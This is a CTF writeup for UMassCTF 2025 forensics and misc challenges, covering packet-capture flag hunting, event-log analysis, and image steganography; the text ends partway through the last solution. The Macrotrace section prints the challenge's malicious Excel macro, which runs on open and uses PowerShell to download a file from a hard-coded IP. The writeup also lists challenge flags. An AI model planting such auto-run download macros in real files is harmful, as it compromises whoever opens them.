






# Writeup UMassCTF 2025 (some Forensics and Misc) - NY4MUK

## Table of Contents

### Forensics
1. [No Updates](#no-updates)
2. [Macrotace](#macrotrace)

### Misc
1. [Odd One Out](#odd-one-out)
2. [Tower Signal](#tower-signal)

---

## Forensics

### No Updates

### Description
> I don't believe in updating my computer, it just takes so long! Besides, no one could ever hack me, I use good passwords!

[chall.pcapng](forensics/noupdates) 

---

### Solution

`chall.pcapng` overview:



We look through the traffic and see a lot of `DNS` and `TCP` packets. There’s no `HTTP`, so we know we’ll need to dig deeper, likely a raw `TCP` shell or reverse shell session.

After serveral minutes talking with my bestfriend. GPT gave me this filter command:

```bash
frame contains "flag"
```



Then, I tried to follow `TCP` stream. Maybe I can find something there?



Found it. 

So, basically, in most forensics challenges, the goal is usually to find a hidden flag inside provided files like **memory dumps**, **packet captures**, or **disk images**.

Often, you can get a quick lead just by searching for keywords like **flag** using tools like `grep` on the command line or applying a display filter in Wireshark (e.g., `frame contains "flag"`). It’s a simple but effective first step in narrowing down where the flag might be hidden.

Also I found out another solution lol. 

Another solution:

```bash
frame contains "UMASS"
```



Flag: **UMASS{n07_ag41n_d4mn_y0u_m3t4spl017}**

---

### Macrotrace

### Desciption
> A suspicious spreadsheet surfaced from the archive of a defunct Flash game studio. Opening it does... something, but whatever was there is now gone.
>
> Your mission: reverse the macro, trace what it did, and recover the flag it tried to destroy.
>
> Use `23ab3Y9/]jKl` as the password when extracting the password-protected zip archive.

[macrotrace-assets.zip](forensics/macrotrace)

---

### Solution

Once I extracted the zip (password was `23ab3Y9/JjK1` btw), I found two files:

`dropper.xlsm`
`flash.evtx`

Time to see what evil the Excel file had. I used `olevba` to extract the VBA macro:

```bash
olevba dropper.xlsm
```

The macro was super short:

```bash
Private Sub Workbook_Open()
    Dim cmd As String
    cmd = "powershell.exe -Command ""Invoke-WebRequest -Uri 'http://34.138.121.94:8000/stage1.txt' -OutFile $env:TEMP\stage1.txt"""
    Shell cmd
End Sub
```

So basically, the macro tries to download `stage1.txt` into the TEMP folder using PowerShell.

But here's the twist: `stage1.txt` isn’t given in the challenge. It’s missing. Gone. Wiped. So where do I look to find out what `stage1.txt` actually did?

Answer: the logs.

That’s when `flash.evtx` became the prime suspect.

To investigate, I converted the `flash.evtx` to a readable format:

!Info!

Do this first:

```bash
git clone https://github.com/williballenthin/python-evtx
cd python-evtx
```

Then I dumped the logs:

```bash
python3 scripts/evtx_dump.py ../flash.evtx > flash.xml
```

At this point, I was basically going through logs like a cyber detective lol.

I started hunting for any signs of the macro's behavior stuff like `powershell`, `stage1.txt`, or any **flaggy** stuff.

Lastly, I found something by run this grep:

```bash
grep -i "scriptblocktext" flash.xml
```

```bash
<Data Name="ScriptBlockText">write-output 'health check 28 OK - 04/18/1996 13:00:05'</Data>
<Data Name="ScriptBlockText">write-output 'health check 29 OK - 04/18/1996 13:00:05'</Data>
<Data Name="ScriptBlockText">prompt</Data>
<Data Name="ScriptBlockText">$e= "VU1BU1N7ZHJvcF9pdF9saWtlX2l0c19ob3R9"</Data>
<Data Name="ScriptBlockText">prompt</Data>
<Data Name="ScriptBlockText">1..50 | foreach-object{
<Data Name="ScriptBlockText">{
<Data Name="ScriptBlockText">{[char]$_}</Data>
<Data Name="ScriptBlockText">write-output 'suspiciouscommand_JgiXZwLrvO'</Data>
```

That's a base64-encoded value. Probably a flag.

So I decode the value and yeah it's a flag

```bash
echo VU1BU1N7ZHJvcF9pdF9saWtlX2l0c19ob3R9 | base64 -d
```

Flag: **UMASS{drop_it_like_its_hot}**

---

## Misc

### Odd One Out

### Description
> I forgot to organize my encrypted flags for this challenge! Can you find the odd one out? I could have sworn it was a different color...

<details>
  <summary>View Hint</summary>
Not all solvers will work on this. If you get stuck, try a different way!
</details>

<details>
  <summary>View Hint</summary>
The oddoneout challenge is multilayer! You'll know you have the right one if it looks like a real word.
</details>

[OddOneOut.png](misc/oddoneout)

---

### Solution

Just to tell you guys that, I solved this chall for 5-6 hours. It was super easy chall actually.

So, what I did is, first thing I ran `zsteg`

I got this:

```bash
┌──(kali㉿kali)-[~/UMassCTF2025/misc/Odd One Out]
└─$ zsteg OddOneOut.png 
b1,b,msb,xy         .. file: MIPSEL ECOFF executable not stripped - version 105.35
b1,rgb,lsb,xy       .. text: "Man I REALLY like squares. I think cubes are cool too. QR codes are truly the pinnacle of modern data encoding.\n\nAlso, while you're rooting around in here, I'm taking a poll: did you ever play coolmath games as a kid?\n\nIf you did: great! I hope you played "
b1,bgr,msb,xy       .. file: OpenPGP Public Key
b2,g,lsb,xy         .. file: Encore unsupported executable not stripped
b3,r,msb,xy         .. file: Applesoft BASIC program data, first line number 146
b3,bgr,lsb,xy       .. file: gfxboot compiled html help file
b4,b,lsb,xy         .. file: Targa image data - Map 1 x 4353 x 16 +257 "\001\021\020"
b4,rgb,lsb,xy       .. file: Targa image data 4096 x 65536 x 1 +4097 +4113 "\020\001"
b4,bgr,lsb,xy       .. file: PDP-11 UNIX/RT ldp
```

Then I use [aperisolve](https://www.aperisolve.com/): 



I looked at the common passwords which is **UMASS{{rcckuizufzxhznod}}** and **Bloxorz**.

Basically **Bloxorz** is a game on coolmath games and it's a key for a cipher which is Vigenere cipher.

Lastly, just decode it




